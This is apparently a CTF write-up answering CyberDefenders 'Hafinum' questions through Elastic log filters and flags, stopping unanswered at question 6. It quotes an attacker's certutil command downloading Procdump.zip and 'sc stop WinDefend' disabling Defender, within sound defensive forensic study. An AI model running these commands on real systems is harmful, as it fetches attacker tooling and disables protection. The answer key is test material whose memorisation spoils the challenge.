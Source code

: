 # Hafinum

Elastic is used for this challenge

## 1. What is the name of the threat detected by Windows Defender?

Filter: winlog.event_id:"1116" or winlog.event_id:"1117" (Question 1 and 2)

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/38059d9c-725d-4dfc-9271-13132d2c3f81)

Flag 1: `Trojan:Win32/Ceprolad.A`

## 2. What was the full URL that Windows Defender blocked an archive from being downloaded?

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/32c77dbc-4c39-4731-a147-eb037e6f5b07)

Flag 2: `https://download.sysinternals.com/files/Procdump.zip`

## 3. What was the full command used by the attacker to successfully download the archive?

Filter: winlog.event_id:"1" and winlog.event_data.CommandLine : *procdump.zip*  (Question 3 and 4)

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/4db4b40a-a903-4e15-8277-df488783ce3e)

Flag 3: `certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/Procdump.zip" procdump.zip`

## 4. Which user account was the attacker using when the archive was successfully downloaded to the host?

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/e2f28bb4-a25e-429c-ad8f-8f1dc6ee12b9)

Flag 4: `Administrator`

## 5. What command was used by the attacker on the host to try and disable Windows Defender via the command line?

Filter: winlog.event_data.ParentCommandLine : *cmd.exe* and winlog.event_id:"1" 

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/f022905b-27bc-424b-8301-ce7bf2e4634b)

Flag 5: `sc stop WinDefend`

## 6. Provide the date and time when Windows Defender's real-time protection was disabled. (24H-UTC)
